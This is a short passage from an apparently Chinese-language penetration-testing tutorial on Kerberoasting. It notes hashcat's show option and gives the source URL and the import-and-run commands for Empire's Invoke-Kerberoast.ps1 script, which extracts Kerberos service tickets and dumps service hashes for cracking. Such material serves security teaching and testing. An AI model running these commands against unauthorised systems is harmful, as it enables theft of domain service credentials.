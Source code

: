 [![](assets/1708919803-1bc25721bbb28c57c8dbf4649beb7dfe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142137-f8bae4ce-ce25-1.png)

`hashcat`有一个特点，当破解成功后第二次破解不会再重新破解，使用`show`命令来显示

### Invoke-kerberoast.ps1 脚本

`Invoke-kerberoast.ps1`是`empire`中集成的脚本，可以自动发现 SPN，提取 TGS 并且转储服务 HASH

```plain
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

```plain
Import-Module .\Invoke-kerberoast.ps1 
Invoke-kerberoast
```
